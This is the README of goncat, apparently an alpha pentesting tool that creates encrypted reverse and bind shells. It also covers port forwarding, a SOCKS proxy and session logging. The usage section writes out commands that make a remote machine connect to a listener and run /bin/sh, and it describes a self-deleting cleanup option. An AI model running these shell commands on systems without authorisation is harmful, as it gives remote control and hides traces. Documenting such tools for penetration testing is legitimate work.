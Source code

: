 # goncat

goncat is a netcat-like tool you can use to create bind or reverse shells,
but designed to give you a more SSH-like experience.
It contains a few extra features that I missed from netcat.
First, goncat supports encryption with mutual authentication
so you don't have to write on one page of your pentest report that administrative access to servers without encryption or authentication is a problem
while writing on the next page how you did exactly that.
Second, it has automatic cross-platform PTY support for your convenience. 
Third, it can be used for tunneling.
For now it supports local and remote port forwarding as well as barebones SOCKS (TCP only, no authentication).
Lastly, there are a few other convenience features such as session logging 
and automatic cleanup.

Disclaimer: please treat this tool as alpha. It is work an progress and may very well be turned upside down.

## Install

Clone this repository and run `make build` to build binaries for Linux, Windows and MacOS.
Downloads may be available in the [release section](https://github.com/DominicBreuker/goncat/releases)
once this tool is out of alpha and the interface is stable.

## Getting started

Akin to netcat, goncat allows to bind a socket or can be used to connect to one.
As with SSH, there is also a master and a slave side of the connection.
The master specifies the parameters for a connection, and the slave operates accordingly.
But master and slave behaviour is not tied to the client and server sides of the connection.
You can turn either side into whatever you want.
There is only one binary combining all features and it works cross-platform.

A few examples to illustrate basic use, which all assume a goncat binary exists on both your own machine and a remote one:
- Reverse shell
  - On your machine: `goncat master listen --port 12345 --exec /bin/sh` to create a listener on port 12345 that will instruct the other end to execute `/bin/sh`.
  - Remote: `goncat slave connect --host 11.22.33.44 --port 12345` to connect the remote side as a slave, which will execute `/bin/sh`.
- Bind shell
  - Remote: `goncat slave listen --port 12345` to listen in port 12345 for connections. The listener will do whatever a connecting master asks it to.
  - On your machine: `goncat master connect --host 55.66.77.88 --port 12345 --exec /bin/sh` to connect to the remote host and make it execute `/bin/sh`.

Advanced features can be enabled with additional flags:
- Encryption: add `--ssl` on both ends to enable TLS
- Authentication: add `--key mypassword` on both ends to ensure no unexpected clients can connect (requires `--ssl`)
- PTY: as master, add `--pty` to get a fully interactive shell (make sure you also execute a shell with `--exec`)
- Local port forwarding: as master, add `-L 8443:google.com:443` to open a local port 8443 on the master side, any connection to it will
  be forwarded through the slave to `google.com:443`
- Remote port forwarding: as master, add `-R 8443:google.com:443` to open a local port 8443 on the slave side, any connection to it will
  be forwarded through the master to `google.com:443`
- SOCKS proxy: as master, add `-D 127.0.0.1:1080` to create a SOCKS proxy, through which you can use the slave side
- Logging: as master, add `--log /tmp/log.txt` to log the session to a file
- Cleanup: as slave, add `--clean` to make goncat delete itself after execution

## A few Details

Encryption and authentication is implemented with (mutual) TLS.
To save you the hassle of generating certificates, goncat does that for you.
If you only enable `--ssl` you get encryption only. 
The server side generates a new certificate on each run of `goncat ... listen`.
The client will accept any certificate without validation.
If you additionally enable `--key mypassword` then your password will be used as a seed
for the RNG used for certificate generation.
Both client and server generate and validate the certificates (but ignoring host name of course).

Logging is implemented in a simple way.
We just store all bytes send over the "main channel" to a file.
Main channel refers to that you saw on the screen when using goncat,
ignoring other data such as control messages required to sync master terminal size over to the slave when enabling PTY.
However, bear in mind that the log still looks a bit strange with PTY enabled.
I may find a better way in the future.

Lastly, a few notes on the cleanup feature.
I don't like it when leftover files fly around when you are done with a machine.
It is all too easy to forget deleting them.
Thus you can tell the slave side to `--clean` up after itself.
goncat will then attempt to delete itself before it terminates.
This works well on many Linux machines, where you can just delete your own binary.
On Windows things are a bit tricky. 
At the moment, goncat launches a seperate CMD-based job to delete the binary 5 seconds after termination.

